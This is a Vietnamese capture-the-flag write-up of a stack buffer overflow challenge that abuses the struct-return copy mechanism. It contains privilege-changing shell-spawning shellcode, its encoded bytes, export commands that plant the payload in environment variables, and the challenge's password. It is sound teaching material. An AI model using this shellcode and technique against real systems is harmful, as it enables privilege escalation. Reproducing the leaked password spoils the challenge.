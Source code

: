 # ELF x86 - Stack buffer overflow basic 4

```c
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Cấu trúc chương trình rất đơn giản, tạo ra biến `env = GetEnv()`

Đây là `struct EnvInfo`

```c
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
```

Chúng ta đến với hàm `GetEnv()`

```c
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
```

Chương trình gọi hàm `strcpy` với 4 giá trị từ `environment` vào `struct EnvInfo`, điều này gây ra lỗi buffer overflow. Chương trình ko bật cơ chế bảo vệ nào vì vậy có rất nhiều cách tấn công buffer overflow. Chúng ta có thể dùng ret2libc hoặc shellcode là 2 kiểu cơ bản nhất. Tuy nhiên ở đây trước khi lấy shell ta cần gọi syscall `setreuid` nhằm thay đổi sid để đọc được file `.passwd`. Vì file `.passwd` chỉ cho phép đọc nếu user là `root` hoặc `app-systeme-ch8-cracked`. Vì thế ở đây mình chọn cách dùng shellcode.

![](images/4.png)

Như vậy kế hoạch sẽ là ghi shellcode vào 1 trong 4 biến môi trường ta copy vào trong biến env, rồi đè địa chỉ trả về lên đó để return về shellcode. Chương trình không bật aslr vì thế chúng ta có thể xem trực tiếp địa chỉ bằng gdb, tuy nhiên khi tấn công thì môi trường chạy ở gdb và môi trường chạy bên ngoài lại có sự khác biệt. Mình không rõ tại sao lại vậy, cơ bản là địa chỉ chúng ta tìm thấy bằng gdb không trùng với địa chỉ thật lúc chạy, cho dù đã mình đã dùng một số trick để xử lí.

Vì vậy chúng ta sẽ đổi cách tấn công một chút, lợi dụng cơ chế xử lí của chương trình khi trả về một struct. Hàm `GetEnv` trả về một `struct EnvInfo` chứ không phải một con trỏ đến `struct EnvInfo`, vì thế nó có chút sự khác biệt ở cơ chế trả về. Mình phát hiện điều này khi mình code assembly khi chương trình gọi hàm `GetEnv()`.

![](images/5.png)

Đây là code xử lí của chương trình khi gọi hàm GetEnv. Và bên trong hàm GetEnv trước khi return.

![](images/6.png)

Mình sẽ giải thích một chút cơ chế thế này, trước khi gọi hàm `GetEnv`, chương trình `push` địa chỉ `ebp – 0x418` làm tham số của hàm, mặc dù trên code hàm `GetEnv` không có tham số nào cả, và hàm `main` chỉ có 1 `struct EnvInfo` tuy nhiên chương trình lại tạo ra một khoảng bộ nhớ đủ cho 2 `struct EnvInfo`??? Lí do cho điều này là khi `struct EnvInfo` được tạo ra ở trong hàm `GetEnv()` và được trả về cho hàm `main`, chương trình dùng câu lệnh `rep movs DWORD PTR es:[edi], DWORD PTR ds:[esi]` để copy struct ta tạo ở hàm `GenEnv` vào địa chỉ đặt tại `ebp + 0x8`, tức là giá trị ta đưa vào trước khi gọi `main`, rồi tiếp tục copy từ đó vào địa chỉ thực của biến `env` trong hàm `main`. Chúng ta có thể viết mã giả như sau:

```c
main() {
	Tạo struct env thật;
	Tạo struct env ảo;
	Đưa địa chỉ struct env ảo vào tham số thứ nhất và gọi GetEnv();
	Copy struct env ảo vào struct struct env thật;
}
GetEnv() {
	Tạo struct env;
	Lấy địa chỉ struct env ảo của hàm main ở ebp + 0x8 và copy struct env vào struct env ảo ở hàm main;
}
```

Đại khái là khi hàm con trả về một struct, chương trình copy struct ra một vùng nhớ tạm khác rồi khi về lại hàm cha, tiến hành copy lại struct từ vùng nhớ tạm vào biến trên hàm `main`. Địa chỉ vùng nhớ tạm được copy được hàm cha đặt là tham số đầu tiên của hàm.

Như vậy ta sẽ đổi cách tấn công một chút, thay vì ta đè return address lên địa chỉ shellcode là biến `struct env` ở hàm `main`, ta có thể sửa `return address` và địa chỉ vùng nhớ tạm tại `ebp + 0x8` giống nhau. Như vậy chương trình sẽ copy struct ra một vùng nhớ trên stack và return về đó luôn, đảm bảo chính xác.

Mình viết một đoạn shellcode nhằm gọi `setreuid(1208, 1108)` để đổi user và gọi `execve(“/bin/sh”, 0, 0)` để lấy shell.

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1208
	mov cx, 1108
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Cuối cùng là đặt chúng vào 1 trong 4 biến môi trường và return. Trong 4 biến thì chỉ có `USERNAME` là chưa có giá trị sẵn, vì vậy mình sẽ đặt shellcode vào biến `USERNAME`, và đè return address về địa chỉ struct ENV ảo + 0x80 (vị trí của `env.username`). Biến `PATH` là biến cuối cùng để overflow vì thế chắc chắn sẽ phải thay đổi, mình sẽ không sửa toàn bộ mà chỉ thêm vào phía sau để đảm bảo chương trình không bị ảnh hưởng. Vị trí của biến PATH là `ebp - 0x21c + 0x180 = ebp – 0x9c`. Địa chỉ của struct ENV ảo có thể là bất kì vùng nhớ nào có quyền read, mình debug gdb và lấy luôn giá trị cũ cho chắc cú.

![](images/8.png)

Exploit:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/`python2 -c "print 'A' * 41 + '\x70\xf6\xff\xbf' + '\xf0\xf5\xff\xbf'"`
```

```bash
export USERNAME=`python2 -c "print '\x90' * 80 + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xb8\x04\x66\xb9\x54\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80'"`
```

![](images/9.png)

password là: `s2$srAkdAq18q`


